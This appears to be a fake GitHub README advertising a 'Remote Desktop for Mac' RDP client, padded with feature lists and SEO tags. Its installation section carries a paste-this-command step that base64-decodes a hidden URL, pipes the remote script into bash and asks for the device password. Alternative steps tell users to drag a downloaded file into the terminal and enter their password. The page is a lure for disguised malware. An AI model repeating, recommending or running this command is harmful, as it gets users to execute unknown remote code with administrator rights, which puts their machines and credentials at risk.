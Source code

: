 # Remote Desktop for Mac – Fast and Secure RDP Client

![Remote Desktop Screenshot](https://miro.medium.com/v2/resize:fit:817/1*NGu44kfRK8ceKQ0sUNwIFA.png)

## 📥 Download Remote Desktop for macOS

[![⬇️ Download Remote Desktop](https://img.shields.io/badge/Download-Remote%20Desktop%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/Desktop)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Remote Desktop for Mac?

Remote Desktop for Mac is a reliable and efficient RDP client that lets you remotely access Windows PCs and servers right from your macOS device. Whether you’re managing your work machine from home, connecting to a server environment, or helping others troubleshoot—this app enables smooth, secure, and real-time access.

It supports full keyboard and mouse input, clipboard sync, high-resolution displays, and custom gateway setups. Ideal for IT professionals, remote workers, and anyone who needs flexible desktop control from a Mac. Works great on Intel and Apple Silicon Macs.

---

## ⚙️ Key Features

- 🖥️ Seamless RDP Access to Windows PCs and servers  
- 🔐 Secure connections with gateway support  
- 📋 Clipboard sync and file sharing  
- 🧭 Multi-monitor support and Retina optimization  
- 🔄 Custom port and resolution control  
- 💼 Credential management  
- ⚡ Fast performance over LAN/WAN  
- 💻 macOS Ventura & M1/M2/M3 compatible  

---

## 📦 System Requirements

- macOS 10.13 (High Sierra) or later  
- Compatible with Monterey, Ventura, and Sonoma  
- Works on Intel and Apple Silicon Macs  
- Minimum 4 GB RAM  

---

## 🔍 Tags

```text
rdp for mac, mac rdc, macbook microsoft remote desktop, mac remote management, remote access mac, remote control mac, remote desktop connection mac, rdp client for mac, best remote desktop for mac, remote desktop manager mac, microsoft remote desktop mac, rdp software mac, remote desktop mac m1, rdp for macbook pro, rdp for mac download, download remote desktop for mac, remote desktop app for mac, remote desktop macos, microsoft remote desktop app for mac, mac os remote management, rdp macos, macos rdp, macos rdp client, mac to mac remote access, apple remote desktop app, rdp macbook
